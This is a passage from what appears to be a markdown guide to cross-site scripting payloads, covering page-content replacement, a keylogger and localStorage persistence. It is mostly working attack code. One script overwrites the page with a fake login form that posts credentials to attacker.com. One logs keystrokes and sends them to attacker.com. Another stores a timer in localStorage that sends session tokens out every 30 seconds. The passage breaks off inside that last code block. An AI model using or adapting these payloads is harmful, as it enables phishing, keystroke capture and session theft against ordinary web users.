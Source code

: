 ```html
```

### 3. DOM Manipulation

**Objective**: Modify page content to deceive users

```html
<!-- Replace page content -->
<script>
  document.body.innerHTML = `
    <div style="text-align: center; padding: 50px;">
      <h1>System Maintenance</h1>
      <p>Please login again to continue:</p>
      <form action="https://attacker.com/phish" method="POST">
        <input type="email" name="email" placeholder="Email" required><br><br>
        <input type="password" name="password" placeholder="Password" required><br><br>
        <button type="submit">Login</button>
      </form>
    </div>
  `;
</script>
```

### 4. Keylogger Implementation

**Objective**: Capture user keystrokes

```html
<script>
  let keystrokes = '';
  document.addEventListener('keypress', function(e) {
    keystrokes += e.key;
    if (keystrokes.length > 50) {
      fetch('https://attacker.com/keylog', {
        method: 'POST',
        body: JSON.stringify({ keys: keystrokes }),
        headers: { 'Content-Type': 'application/json' }
      });
      keystrokes = '';
    }
  });
</script>
```

### 5. Advanced Persistent XSS

**Objective**: Maintain persistence across page loads

```html
<script>
  // Store malicious code in localStorage
  localStorage.setItem('malicious_code', `
    setInterval(() => {
      if (localStorage.getItem('token')) {
        fetch('https://attacker.com/monitor', {
          method: 'POST',
          body: JSON.stringify({
            token: localStorage.getItem('token'),
            url: window.location.href,
            timestamp: Date.now()
          })
        });
      }
    }, 30000);
  `);
  
```